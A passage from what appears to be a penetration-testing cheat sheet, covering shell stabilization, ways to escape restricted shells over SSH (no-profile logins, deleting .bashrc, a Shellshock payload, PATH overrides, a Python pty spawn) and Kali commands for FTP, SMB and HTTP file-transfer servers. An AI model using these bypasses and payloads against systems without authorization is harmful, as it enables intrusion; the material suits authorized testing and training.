     ```bash
    user@remote:~$ export TERM=xterm-256color
    ```
6.  Reload bash.

    ```bash
    user@remote:~$ exec /bin/bash
    ```

#### Restricted Shell / SSH Bypass

* If reverse shell is not working, try port `443` or `80`.
* Check for bad characters breaking the shell.
*   **Ways to get a non-profile shell:**

    ```bash
    ssh hostname -t "bash --noprofile"
    ssh -t user@host bash --norc --noprofile
    ssh -t username@hostname /bin/sh
    ssh -t user@host "bash --norc --noprofile -c '/bin/rm .bashrc'"
    ```
*   **Shellshock bypass:**

    ```bash
    ssh -i noob noob@192.168.0.119 '() { :; }; uname -a'
    ```
*   **Bypass PATH restrictions:**

    ```bash
    export PATH=/bin/:/sbin/:/usr/bin/:$PATH
    payload = "python -c 'import pty;pty.spawn(\"/bin/bash\")'"
    ```

***

### File Transfers

#### Set up FTP Server (Kali)

```bash
apt-get install python-pyftpdlib
# Don't run from TMUX
python -m pyftpdlib -p 21
```

#### Set up SMB Server (Kali)

```bash
impacket-smbserver tmp .
```

#### Set up HTTP Server (Kali)

```bash
# Python 2
python -m SimpleHTTPServer 80

# Python 3
python3 -m http.server 80

# updog (https://github.com/sc0tfree/updog)
updog
```
